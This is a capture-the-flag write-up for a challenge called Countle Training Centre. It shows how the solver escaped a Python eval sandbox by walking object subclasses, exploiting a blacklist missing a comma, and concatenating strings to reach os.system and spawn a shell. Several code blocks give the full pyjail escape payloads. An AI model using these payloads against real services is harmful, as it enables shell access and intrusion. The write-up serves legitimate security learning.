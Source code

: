 ## Countle Training Centre

Category: Misc

In the challenge, we must connect to a server and play the countle game.  

In the source file, it appears that after winning 999999 consecutive rounds, the flag would be printed. However, due to the rate limit enforced, this would take roughly 27 hours, and automation is hence not a viable option. 

<img src="images/source.png" width=600>

Our next best option is to exploit the `eval` call that evaluates our countle expression to give ourselves a shell.  

<img src="images/eval.png" width=600>
<img src="images/blacklist.png" width=600>

From the above, we can see that `eval` is being run in a sandboxed environment, where the `FLAG` variable cannot be referenced, and that most pyjail exploit functions have been blacklisted. Our payload is also restricted to a maximum length of 160.  

Another important detail worth noting is that `builtins` and `cat` are not actually blacklisted, as the list is missing a comma to separate them, so Python's implicit string concatentation causes both keywords to be excluded from the blacklist.


Naturally, the first step would be to escape our sandboxed environment to access normally accessible functions. The code snippet below exploits the `tuple` class to access all subclasses inheriting from the `object` class.  

```python
().__class__.__base__.__subclasses__()
```

The class we are most interested in would be the `warnings.catch_warnings` class, as its module builtins contains the `__import__` method, which we will need to gain access to `os` later on.  

As the Python versions on our system and the server may differ, we can dynamically search for the class through name filtering.

```python
[x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]
```

After instantiating an instance of our class, we can then import the `os` class and invoke a shell as shown below, bypassing the blacklist through string concatenations.  

```python
([x for x in ().__class__.__base__.__subclasses__() if "catch" in x.__name__][0]()._module.__builtins__["__impor"+"t__"]("o"+"s")).__getattribute__("syste"+"m")("s"+"h")
```

However, we now face the issue of our payload exceeding the length cap (167 characters).  

This can fixed with the following:
- shortening the term used to filter class names
- removing unncessary spaces
- removing addition signs through implicit string concatenations

Putting it all together, we shrink the payload down to 159 characters.  

```python
([x for x in().__class__.__base__.__subclasses__()if"cat"in x.__name__][0]()._module.__builtins__["__impor""t__"]("o""s")).__getattribute__("syste""m")("s""h")
```

After starting the challenge and entering our payload, we can finally spawn a shell and view the actual flag in the server source code.    

<img src="images/flag.png" width=600>
